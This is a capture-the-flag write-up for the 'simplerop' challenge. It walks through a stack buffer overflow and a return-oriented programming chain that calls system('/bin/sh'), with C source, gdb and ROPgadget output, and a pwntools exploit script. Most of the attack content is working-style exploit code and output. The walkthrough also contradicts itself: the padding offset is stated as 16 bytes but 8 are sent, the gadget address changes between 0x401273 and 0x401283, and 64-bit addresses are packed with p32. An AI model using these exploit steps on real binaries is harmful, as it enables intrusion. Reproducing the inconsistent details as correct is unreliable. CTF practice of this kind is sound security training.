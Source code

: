 # See for Yourself 'simplerop' Writeup

This challenge is another short program that reads one line of input.

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

char * binsh = "/bin/sh";

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    system(NULL);

    char * shellcode[0];

    printf("Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.\n");
    read(0, shellcode, 64);
}
```

We can run `checksec` to see what protections the program is compiled with.

```
━━┫ checksec simplerop                  
[*] '/home/simplerop/simplerop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Noteably, the stack is not executable, but there is no stack canary and PIE is disabled. This means that a ROP (Return Oriented Programming) attack should be feasible.

First, we will attempt to gain control of the stack pointer to determine the correct offset. This can be done with pwntool's `cyclic`, manually in `gdb`, or statically by reading the offsets in the disassembly. This is how it can be done in gdb:

```
gef➤  r
Starting program: /home/simplerop/simplerop 
[Detaching after vfork from child process 15189]
Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401208 in main () at simplerop.c:16
16      simplerop.c: No such file or directory.
gef➤  x/xi $rip
=> 0x401208 <main+114>: ret    
gef➤  x/xg $rsp
0x7fffffffbaa8: 0x4242424242424242
```

We see that `0x4242424242424242` is where the program is trying (and failing) to return to. Since `0x43`is `C`, this means that 16 bytes past the start of our input is where our ROP chain should start.

A ROP attack involves overwriting the return address of a function on the stack to a 'gadget' that will perform some simple action, then return. You can set the return address of that gadget to another simple action, and so forth until you combine enough simple actions to gain a shell.

In our case, jumping to code that will call `system`, after setting up the arguments (`rdi = "/bin/sh"`) is a simple solution. since "/bin/sh" exists in the data section and `system` is called by the program.

In order to do so, our ROP chain should look something like:

```
pop rdi; ret
<ptr to "/bin/sh">
call system
```

We can use ROPgadget to find the first gadget ('pop rdi'), gdb to find "/bin/sh", and the disassembly of main to find `call system`.

```
━━┫ ROPgadget --binary simplerop | grep 'pop rdi'
0x0000000000401273 : pop rdi ; ret
```

```
gef➤  p (char *) binsh
$1 = 0x402008 "/bin/sh"
```

```
gef➤  disassemble main
Dump of assembler code for function main:
   ...

   0x00000000004011da <+68>:    mov    edi,0x0
   0x00000000004011df <+73>:    call   0x401080 <system@plt>
   0x00000000004011e4 <+78>:    lea    rdi,[rip+0xe25]        # 0x402010
   ...
```

This means that: `pop rdi` is at `0x401283`, `"/bin/sh"` is at `0x402008`, and `call system` is at `0x4011df`.

Our ropchain should then look like:

```
ropchain = b''
ropchain += p32(0x401273)
ropchain += p32(0x402008)
ropchain += p32(0x4011df)
```

We can use the offset that we calculated earlier to send the payload:

```
p.sendline(b'A' * 8 + ropchain)
```

In addition, pwntools has some additional features to help build ropchains. Here is an example of a solve that takes advantage of the automatic generation of a call:
```
from pwn import *

# This is required to ensure the right ropchain is generated
context.arch = 'amd64'

p = process("./simplerop")
binary = ELF("./simplerop")

rop = ROP(binary)
binsh = 0x402008
system = 0x4011df
rop.call(system, [binsh])

print(rop.dump())

p.sendline(b'A' * 8 + rop.chain())
p.interactive()
```

